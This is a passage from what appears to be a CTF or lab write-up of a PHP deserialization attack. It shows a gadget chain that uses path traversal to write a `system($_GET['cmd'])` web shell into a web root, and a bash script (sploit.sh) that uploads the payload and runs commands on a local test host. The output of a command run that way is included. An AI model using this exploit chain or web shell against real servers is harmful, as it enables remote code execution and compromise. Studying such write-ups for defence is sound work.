 ```php
        $this->replacement = $repl;
    }

    function filter($data)
    {
        return preg_replace($this->matchPattern, $this->replacement, $data);
    }
}

//control the content written to the PHP file
$payload = '<?=system($_GET["cmd"]);?>';

$l = new Lyrics('123', new Song($payload, 'b', 'c'));
echo serialize($l);
```

Will produce the following serialized object that creates a PHP file with `system()` function call:
```
O:6:"Lyrics":2:{s:9:"*lyrics";s:3:"123";s:7:"*song";O:4:"Song":4:{s:9:"*logger";O:6:"Logger":1:{s:12:"*logwriter";O:14:"LogWriter_File":2:{s:11:"*filename";s:64:"../../../../../../../../../../../var/www/webroot/public/test.php";
s:9:"*format";O:13:"LogFileFormat":2:{s:10:"*filters";a:1:{i:0;O:12:"OutputFilter":
2:{s:15:"*matchPattern";s:3:"[0]";s:14:"*replacement";s:0:"";}}s:7:"*endl";s:1:"
";}}}s:7:"*name";s:26:"<?=system($_GET["cmd"]);?>";s:8:"*group";s:1:"b";s:6:"*url";s:1:"c";}}
```
PoC file `test.php`: `Song <?=system($_GET["cmd"]);?> by [i]b[/i] viewed.`

#### 9. Exploitation

File: `sploit.sh`
```bash
#!/usr/bin/env bash

cmd=${1:?missing cmd arg}

target='https://webdev.local'
payload=`php sploit.php 2>/dev/null | base64 -w0`
http --verify=no -f $target/import.php data=$payload >/dev/null
http --verify=no $target/test.php?cmd="$cmd" -b | sed 's/Song //g' | sed 's/ by.*viewed.//g' | sort -u
```

```
# bash sploit.sh "uname -a"
Linux 29873602d55c 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64 Linux
```
